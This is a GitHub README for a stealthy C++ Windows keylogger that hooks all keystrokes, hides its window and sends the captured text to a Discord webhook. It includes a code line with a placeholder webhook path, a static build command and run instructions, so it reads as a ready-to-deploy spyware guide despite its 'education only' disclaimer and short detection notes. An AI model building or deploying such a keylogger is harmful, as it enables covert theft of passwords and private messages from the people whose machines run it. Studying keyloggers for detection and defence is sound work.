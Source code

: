 # KBSniffer

<p align="center">
  <img src="https://img.shields.io/badge/C++-17+-00599C?style=for-the-badge&logo=c%2B%2B" alt="C++17" />
  <img src="https://img.shields.io/badge/Platform-Windows-0078D6?style=for-the-badge&logo=windows" alt="Windows" />
  <img src="https://img.shields.io/badge/License-GPLv3-3DA639?style=for-the-badge&logo=gnu" alt="GPLv3 License" />
  <img src="https://img.shields.io/badge/Purpose-Education-ff6b6b?style=for-the-badge" alt="For Education" />
</p>

A sophisticated and stealthy keylogger for Windows, developed in C++. KBSniffer utilizes low-level system hooks to capture keystrokes and transmits them asynchronously to a Discord channel via webhooks. This project is designed for educational purposes in the fields of cybersecurity, system programming, and reverse engineering.

## ⚠️ Critical Disclaimer: For Authorized Use Only

**This software is intended strictly for educational and authorized security testing purposes.**

*   **Legal Use:** You must only use this tool on systems that **you own** or have **explicit, written permission** to test.
*   **No Liability:** The author is **not responsible** for any misuse or damage caused by this program.
*   **Illegal Activity:** Unauthorized use of this software for malicious purposes is a criminal offense and violates ethical guidelines.

**By using this software, you agree to these terms and assume full responsibility for your actions.**

## 🚀 Features

*   **Stealth Operation:** Executes as a background process with no console window.
*   **Comprehensive Logging:** Accurately captures alphanumeric keys, symbols, and special keys (Enter, Backspace, Space).
*   **Shift-State Management:** Correctly interprets the state of `Shift` and `Caps Lock` for precise character and symbol translation.
*   **Asynchronous Discord Integration:** Efficiently sends captured data to a Discord channel via webhooks using a producer-consumer model to avoid input lag.
*   **Robust Architecture:** Built with multithreading and synchronization primitives (`std::mutex`, `std::condition_variable`) for stability.

## 🛠️ How It Works

1.  **Hook Installation:** Sets a global low-level keyboard hook (`WH_KEYBOARD_LL`) via `SetWindowsHookEx` to intercept keystrokes.
2.  **Key Processing:** The hook procedure translates virtual-key codes into characters, handling all shift states for accurate symbol generation.
3.  **Buffer Management:** Completed messages (on `VK_RETURN`) are placed into a thread-safe queue.
4.  **Webhook Delivery:** A dedicated worker thread consumes the queue and transmits data to the configured Discord webhook using the WinHTTP API.

## 📦 Installation & Setup

### Prerequisites
*   A Windows operating system.
*   A C++ compiler (e.g., MinGW-w64, MSVC).
*   A Discord webhook URL. [Learn how to create one here.](https://support.discord.com/hc/en-us/articles/228383668-Intro-to-Webhooks)

### 1. Configuration
Replace the placeholder webhook URL in `main.cpp` with your own:
```cpp
// Find this line and replace the path:
HINTERNET hRequest = WinHttpOpenRequest(hConnect, L"POST", L"/api/webhooks/YOUR_WEBHOOK_ID/YOUR_WEBHOOK_TOKEN", ...);
```

### 2. Compilation
Compile the source code into a standalone Windows executable. Using **MinGW-w64**:

```bash
x86_64-w64-mingw32-g++ -static -O2 -o KBSniffer.exe KBSniffer.cpp -lwinhttp -luser32
```
*   `-static`: Statically links libraries for a standalone executable.
*   `-lwinhttp -luser32`: Links necessary Windows APIs.

### 3. Execution
Run the compiled `KBSniffer.exe`. The program will immediately hide its console window and begin operation.

## 🔬 Technical Details

*   **Language:** C++17
*   **Core APIs:** Windows API (`SetWindowsHookEx`, `GetAsyncKeyState`, `WinHTTP`)
*   **Concurrency:** STD Thread, Mutex, and Condition Variable
*   **Compilation:** Static linking for portability

## 🛡️ Defense & Detection

This is a proof-of-concept tool and is not designed for advanced evasion.
*   **Antivirus:** Will likely be detected as a Trojan/Spyware.
*   **Monitoring Tools:** Can be spotted by utilities that monitor for low-level hooks (e.g., Process Hacker, Sysinternals Suite).
*   **User Awareness:** Visible in running processes list.

## 📜 License

This project is licensed under the **GNU General Public License v3.0 (GPL-3.0)**. This license mandates that any distributed modifications must remain open source. This choice supports the educational ethos of the project by ensuring the code remains free and accessible for learning.

**The license is supplemented by the above disclaimer, which strictly prohibits unauthorized and malicious use.**

## 🎯 Purpose

This project was created to explore and demonstrate:
*   The Windows API and hooking mechanisms.
*   Low-level system input handling.
*   Secure, asynchronous network communication in C++.
*   Multithreaded application design patterns.
